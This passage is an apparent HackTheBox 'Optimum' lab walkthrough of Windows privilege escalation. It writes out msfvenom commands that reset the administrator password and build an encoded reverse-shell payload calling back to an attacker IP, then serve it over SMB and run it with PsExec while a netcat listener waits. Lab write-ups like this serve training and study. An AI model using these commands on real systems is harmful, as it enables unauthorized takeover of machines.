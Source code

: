 ![user6](./optimum/user6.png)

The payload worked but it looks like refreshing the group memberships of user `kostas` remotely through the shell is non-trivial (gave up after a bit)... Instead, just change the password for the `Adminsitrator` user:

```bash
msfvenom -p windows/x64/exec \
         CMD='net user administrator bubbagump123!' \
         -a x64 --platform windows \
         -f exe \
         -o bubba.exe
```

![user6](./optimum/user7.png)

It looks like the command executed correctly. To abuse this, make a new reverse shell payload and transfer it to the target to run using PSExec:

```bash
# run on kali
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.root.exe
wget https://download.sysinternals.com/files/PSTools.zip
unzip PSTools.zip
sudo impacket-smbserver BUBBA .
nc -nvlp 7777
# run on target
robocopy.exe \\10.10.14.25\BUBBA %TEMP% PsExec64.exe /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.25\BUBBA %TEMP% bubba.root.exe /copy:DT /w:1 /r:1 /v 
%TEMP%\PsExec64.exe -accepteula -u administrator -p bubbagump123! %TEMP%\bubba.root.exe
```

